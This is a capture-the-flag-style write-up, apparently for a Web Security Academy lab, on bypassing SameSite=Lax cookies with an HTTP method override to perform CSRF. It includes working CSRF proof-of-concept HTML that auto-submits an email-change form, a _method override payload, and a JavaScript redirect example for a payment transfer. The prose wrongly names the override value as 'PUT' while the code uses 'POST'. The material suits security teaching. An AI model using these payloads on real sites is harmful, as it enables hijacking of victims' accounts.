






# SameSite Lax bypass via method override

## Lab Description :


##Overview :

Bypassing SameSite Lax restrictions using GET requests
In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission. If they also use Lax restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a GET request from the victim's browser.

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks support a variety of similar parameters.

## Solution :
This lab's website doesn't enforce samesite cookie mechanism, the samesite mechanism is provided by the browser. We need to bypass it. So use chrome as it has SAMESITE=Lax by default.

When we login as wiener a POST request is sent to ``/login`` endpoint.

Its resposne doesn't contain any Samesite restrictions when setting cookies,





As a result, the browser will use the default Lax restriction level.

Recognize that this means the session cookie will be sent in cross-site GET requests, as long as they involve a top-level navigation.

In the email change functionality, update the email of wiener.



Our browser sends the following POST request to /change-email endpoint.
```html
POST /my-account/change-email HTTP/1.1
Host: 0a83000703a7443b832173c900ec0075.web-security-academy.net
Cookie: session=AByBtr98xDwtwaclCZ3UjOa6ceJRYwzI
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a83000703a7443b832173c900ec0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=test%40test.com
```
We can see that there is no unpredictable request parameters so if we can bypass the Lax restrictions then we may be able to perform a CSRF attack.

Generating POC -
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Here we change the request method from POST -> GET (ie) - method=GET. But it won't work.

We can't just change the request method & genreate POC since in the response of GET message we get a error -Method Not Allowed



From this we can understand that the endpoint /change-email accepts only POST requests.

So we need to Override the request method instead of changing the request method in the POC .

Overriding the request method -

#### References

 .https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/ 
 .https://laravel.com/docs/5.0/routing#method-spoofing

The above reference tells us how we can overrride a HTTP request. And also ,
Note: Chrome will make an exception for cookies set without a SameSite attribute less than 2 minutes ago. Such cookies will also be sent with non-idempotent (e.g. POST) top-level cross-site requests despite normal SameSite=Lax cookies requiring top-level cross-site requests to have a safe (e.g. GET) HTTP method. 1`Support for this intervention ("Lax + POST") will be removed in the future.

So in our final payload, we change the request method - method="GET" & then we include a hidden input form (ie.) - ``<input type="hidden" name="_method" value="PUT">`` inside the form to override the request method.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a69000c034b620380c93fc10079009e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
And thus we have solved the lab.



#### Visit The Next Page For The Next Level :)
